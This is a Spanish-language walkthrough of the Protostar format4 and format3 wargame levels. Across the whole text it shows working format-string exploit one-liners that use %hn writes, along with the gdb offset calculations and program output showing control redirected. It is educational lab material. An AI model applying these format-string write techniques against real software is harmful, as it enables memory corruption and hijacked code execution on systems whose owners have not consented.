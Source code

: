 ```console
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\x24\x97\x04\x08\x26\x97\x04\x08\%33963x%4$hn%33616x%5$hn")' | ./format4
code execution redirected! you win
```

## Extra -> Probé a hacer la tecnica de los 2 bytes con el format 3 (tiene que salir 0x1025544)

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print "\xf4\x96\x04\x08\xf6\x96\x04\x08" + "%12$hn%13$hn"' | ./format3 | tail -n1
target is 00080008 :(
(gdb) p 0x5544 - 0x008
$1 = 21820
(gdb) quit
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print "\xf4\x96\x04\x08\xf6\x96\x04\x08" + "%21820x%13$hn%12$hn"' | ./format3 | tail -n1
target is 55445544 :(
```

Nos hemos pasado de largo. Pero hay solución. Simplemente hay que modificar un poco la técnica.

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print "\xf4\x96\x04\x08\xf6\x96\x04\x08" + "%12$hn%13$hn"' | ./format3 | tail -n1
target is 00080008 :(
(gdb) p 0x0102 - 0x0008 -> En vez de restar la segunda mitad (5544) ahora restamos la primera y se lo añadimos al primer argumento
$1 = 250
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print "\xf4\x96\x04\x08\xf6\x96\x04\x08" + "%250x%12$hn%13$hn"' | ./format3 | tail -n1
target is 01020102 :(
(gdb) p 0x5544 - 0x0102 -> Lo que nos queda, la segunda mitad.
$3 = 21570 -> Como no da negativo no hay que añadir el uno a la izquierda como antes.
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print "\xf4\x96\x04\x08\xf6\x96\x04\x08" + "%250x%12$hn%21570x%13$hn"' | ./format3 | tail -n1
target is 55440102 :( 
Sale al reves asi que hay que poner al reves el numero de argumentos (primero 13  luego 12) sin poner al reves los argumentos que se suman.
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print "\xf4\x96\x04\x08\xf6\x96\x04\x08" + "%250x%13$hn%21570x%12$hn"' | ./format3 | tail -n1
you have modified the target :)
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print "\xf6\x96\x04\x08\xf4\x96\x04\x08" + "%250x%12$hn%21570x%13$hn"' | ./format3 | tail -n1
you have modified the target :) O cambiar las memorias, primero 6 luego 4
```


